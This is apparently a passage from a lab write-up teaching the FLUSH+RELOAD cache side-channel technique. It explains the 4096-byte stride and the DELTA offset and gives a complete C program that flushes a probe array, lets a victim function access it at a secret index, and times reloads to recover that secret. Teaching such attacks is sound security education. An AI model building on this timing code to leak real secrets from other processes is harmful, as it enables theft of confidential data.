 Note in the code below, we initialize an array of size 256 * 4096. 
> This is because that caching is done at a block level, not at a byte level. If array[k] is ac- cessed, a block of memory containing this element will be cached. Therefore, the adjacent elements of array[k] will also be cached, making it difficult to infer what the secret is. To solve this problem, we create an array of 256 * 4096 bytes. Each element used in our RELOAD step is array[k*4096].


Further more, we add an DELTA offset here. 
> Since array[0*4096] may fall into the same cache block as the variables in the adjacent memory, it may be accidentally cached due to the caching of those variables. Therefore, we should avoid using array[0*4096] in the FLUSH+RELOAD method (for other index k, array[k*4096] does not have a problem). To make it consistent in the program, we use array[k*4096 + DELTA] for all k values, where DELTA is defined as a constant 1024.
```c
#include <emmintrin.h>
#include <x86intrin.h>
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>

uint8_t array[256*4096];
int temp;
unsigned char secret = 94;
/* cache hit time threshold assumed*/
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

void victim()
{
  temp = array[secret*4096 + DELTA];
}
void flushSideChannel()
{
  int i;
  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;
  //flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}

void reloadSideChannel()
{
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  for(i = 0; i < 256; i++){
   addr = &array[i*4096 + DELTA];
   time1 = __rdtscp(&junk);
   junk = *addr;
   time2 = __rdtscp(&junk) - time1;
   if (time2 <= CACHE_HIT_THRESHOLD){
	printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
        printf("The Secret = %d.\n",i);
   }
  } 
}

int main(int argc, const char **argv)
{
  flushSideChannel();
  victim();
  reloadSideChannel();
  return (0);
}
```